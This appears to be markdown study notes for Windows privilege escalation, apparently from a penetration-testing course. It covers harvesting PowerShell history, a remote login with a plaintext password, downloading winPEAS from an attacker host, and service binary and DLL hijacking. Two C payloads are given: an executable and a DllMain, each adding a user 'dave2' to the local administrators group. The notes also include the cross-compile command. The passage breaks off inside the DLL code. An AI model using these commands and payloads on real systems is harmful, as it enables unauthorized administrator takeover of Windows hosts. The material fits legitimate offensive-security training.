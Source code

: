 <a name="information-goldmine-powershell"></a>
## Information Goldmine Powershell
`PS C:\> Get-History`
`PS C:\> (Get-PSReadlineOption).HistorySavePath`
`kali@kali:~$ evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"`

<a name="automated-enumeration"></a>
## Automated Enumeration
`PS C:\> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe`
> winPEAS may falsely detect Windows 11 as Windows 10

<a name="service-binary-hijacking"></a>
## Service Binary Hijacking
`PS C:\> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
`C:\> icacls "C:\xampp\apache\bin\httpd.exe"`

	#include <stdlib.h>
	
	int main ()
	{
	  int i;
	  
	  i = system ("net user dave2 password123! /add");
	  i = system ("net localgroup administrators dave2 /add");
	  
	  return 0;
	}

`kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
`C:\> sc.exe stop mysql`
`C:\> net stop mysql`
`PS C:\> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}`
`PS C:\> whoami /priv`
`PS C:\> . .\PowerUp.ps1`
`PS C:\> Get-ModifiableServiceFile`

<a name="service-dll-hijacking"></a>
## Service DLL Hijacking
`PS C:\> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
`C:\> icacls .\Documents\BetaServ.exe`
`PS C:\> Restart-Service BetaService`
`PS C:\> $env:path`

	#include <stdlib.h>
	#include <windows.h>
	
	BOOL APIENTRY DllMain(
	HANDLE hModule,// Handle to DLL module
	DWORD ul_reason_for_call,// Reason for calling function
	LPVOID lpReserved ) // Reserved
	{
	    switch ( ul_reason_for_call )
	    {
	        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
	        int i;
	  	    i = system ("net user dave2 password123! /add");
	  	    i = system ("net localgroup administrators dave2 /add");
	        break;
	        case DLL_THREAD_ATTACH: // A process is creating a new thread.
	        break;
	        case DLL_THREAD_DETACH: // A thread exits normally.
